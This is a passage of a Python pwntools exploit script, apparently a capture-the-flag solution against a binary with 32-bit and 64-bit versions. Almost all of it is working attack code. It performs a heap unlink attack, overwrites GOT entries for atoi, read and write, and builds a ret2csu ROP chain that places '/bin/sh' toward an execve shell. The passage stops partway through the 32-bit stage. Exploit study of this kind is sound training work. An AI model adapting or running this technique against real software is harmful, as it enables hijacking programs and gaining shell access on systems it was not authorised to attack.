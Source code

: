 ```py
    Edit(0,payload)

    Delete(1)

    #32 bit unlink
    heap_lis_32 = 0x0804a060
    fd = heap_lis_32 + 8*13 - 0xc
    bk = heap_lis_32 + 8*13 - 0x8
    payload = p32(0)+p32(0x18)+p32(fd)+p32(bk)+"a"*8+p32(0x18)
    Edit(13,payload)

    Delete(14)

    #64 bit ROP
    bss_64 = elf64.bss()+0x200
    atoi_got_64 = elf64.got['atoi']
    write_got_64 = elf64.got['write']
    write_plt_64 = elf64.plt['write']
    read_plt_64 = elf64.plt['read']
    read_got_64 = elf64.got['read']
    payload = p64(0)*3
    payload += p64(heap_lis_64)+p64(0x1000)
    Edit(0,payload)

    payload = p64(atoi_got_64-8)+p64(0x20)
    payload += p64(bss_64)+p64(0x100)
    payload += p64(bss_64)+p64(0x100)
    payload += p64(write_got_64)
    Edit(0,payload)
    #csu
    p_rdi = 0x400c33
    p_rsi_r15 = 0x400c31
    rop_64 = "/bin/sh\x00"+p64(bss_64+0x200)
    #set rax
    rop_64 += p64(p_rdi)+p64(0)
    rop_64 += p64(p_rsi_r15)+p64(write_got_64)+p64(0)
    rop_64 += p64(read_plt_64)
    #
    rop_64 += p64(0x400c2a)
    rop_64 += p64(0)+p64(1)+p64(read_got_64)+p64(0x100)+p64(bss_64+0x100)+p64(0)+p64(0x400c10)+'a'*0x38
    rop_64 += p64(0x400c2a)+p64(0)+p64(1)+p64(write_got_64)+p64(0)+p64(0)+p64(bss_64)+p64(0x400c10)+'a'*0x38

    Edit(2,rop_64)
    #set rax=59
    #ovwerite aoti
    p_rbp64 = 0x400770
    leave_ret64 = 0x4008b7

    #gdb.attach(p,'b* 0x400b32')
        #trigger 64
    atoi_got_32 = elf32.got['atoi']
    read_got_32 = elf32.got['read']
    read_plt_32 = elf32.plt['read']
    write_got_32 = elf32.got['write']
    write_plt_32 = elf32.plt['write']
    #32 bit ROP
    bss_32 = elf32.bss()+0x100
    Edit(13,p32(0x100)+p32(heap_lis_32)+p32(0x100)+p32(bss_32)+p32(0x200))
    Edit(12,p32(atoi_got_32)+p32(0x100))
    #12:aoti_got
    #13:bss
```